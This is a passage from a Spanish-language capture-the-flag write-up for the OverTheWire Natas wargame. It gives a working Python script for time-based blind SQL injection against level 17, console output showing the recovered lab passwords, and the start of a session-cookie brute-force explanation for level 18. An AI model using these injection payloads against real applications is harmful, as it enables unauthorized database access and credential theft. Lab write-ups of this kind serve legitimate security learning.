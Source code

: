 ```python
                        break
```
```console
[cucuxii@parrot]~[natas]$: python3 natas16.py                                                                                                             
PASS: ********************************
PASS: 8*******************************
...
PASS: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
## Natas 17

Aqui tomamos un time based sqli, o sea que agarramos el script del blind sql y le añadimos otra condicion, si la respuesta es correcta, espera 5 
segundos:

```python
import requests
from string import *
import time

target = 'http://natas17.natas.labs.overthewire.org'
chars = ascii_lowercase + ascii_uppercase + digits

password = ""
while len(password) != 32:
        for c in chars:
                sqli = f'" OR password LIKE BINARY "{password}{c}%" AND sleep(5)-- -'
                start = time.time()
                r = requests.post(target, auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'), data={"username": sqli, "submit":"submit"})
                end = time.time()
                if end - start > 3:
                        print ('PASS: ' + password.ljust(32, '*'))
                        password += c
                        break
```
```console
[cucuxii@parrot]~[natas]$: python3 natas16.py                                                                                                             
PASS: ********************************
PASS: x*******************************
...
PASS: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```
## Natas 18

Nos topamos ante un panel de login, (usaurio y contraseña), pongamos lo que pongamos nos dice que nos hemos logueado como un usuario normal.
Viendo el código, nos dice que crea una Cookie del tipo PHPsessid la cual es un número aleatorio del 1 al 640. 

